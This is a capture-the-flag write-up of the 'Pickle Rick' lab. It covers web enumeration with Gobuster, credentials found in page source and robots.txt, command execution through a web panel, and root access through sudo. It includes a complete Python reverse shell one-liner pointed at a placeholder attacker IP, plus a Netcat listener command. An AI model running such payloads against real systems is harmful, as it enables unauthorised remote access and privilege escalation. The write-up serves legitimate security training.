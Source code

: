 # Pickle Rick Challenge

## Room Info
- Name: Pickle Rick
- Difficulty: Easy
- Category: Linux / Web
- Focus: Enumeration, Credential Discovery, Remote Code Execution, Privilege Escalation

## Objectives
- Find Rick’s three secret ingredients
- Gain access to the web server
- Escalate privileges to root

## Exploitation

Upon visiting http://machine_ip, I inspected the page source and found a hidden HTML comment containing a username

![User Name](finding-user.png)

I then ran a directory brute-force scan using Gobuster to uncover hidden paths:
``gobuster dir -u http://machine_ip -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -t 50 -x php,txt``

![Gobuster Results](discovery.png)

I checked robots.txt for hidden paths and found what appears to be the password 

![Password](finding-the-password.png)

I then navigated to /login.php, entered the credentials, and successfully authenticated

![Login Panel](signing-page.png)

After logging in, I tested the command panel by running ``ls`` and it executed successfully, confirming Remote Command Execution (RCE)

![command panel](commande-panel-ls.png)

After this i attempted to read a file using the ``cat`` command 
However, the command failed to execute, indicating that the panel likely sanitizes or restricts certain commands, especially those used for file reading.

![command panel cat](commande-panel-cat.png)

To bypass this limitation, I decided to spawn a reverse shell to gain full terminal access.


 I checked whether Python was installed and which version was available by running ``which python`` in the commande panel

 ![Python version](finding-python-version.png)

 After confirming that python3 was installed, i crafted a reverse shell payload based on the PentestMonkey cheat sheet
 <pre>
 python3 -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("Attack_machine_ip",port_number)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.run(["/bin/sh","-i"])'
</pre>

On my local machine, I started a Netcat listener to catch the shell
``nc -nlvp 9999``

After submitting the payload through the command panel, I received a reverse shell connection, granting me interactive access to the target system.

![reverse shell access](reverse-shell.png)

Once the reverse shell was established i found the first secret ingredients in the Sup3rS3cretPickl3Ingred.txt file

![First Ingridient](first-ingridient.png)

The clue.txt i found 
``Look around the file system for the other ingredient.``

began exploring the file system to locate Rick’s secret ingredients. I started by navigating to the ``/home`` directory where i found ``rick`` directory where i found a file named  ``second-ingredient.txt`` containing the second secret ingredient

![Second Ingridient](second-ingridient.png)

After retrieving the second ingredient, I attempted to access the /root directory ``cd /root``  access denied — as expected for a non-root user.

To explore privilege escalation options, I ran ``sudo -l``

![Root ](access-to-root.png)

Output revealed that I could run commands as root without a password.

I leveraged this to list the contents of /root and found the third and final secret ingredient.

![final ingridient](3rd-ingridient.png)

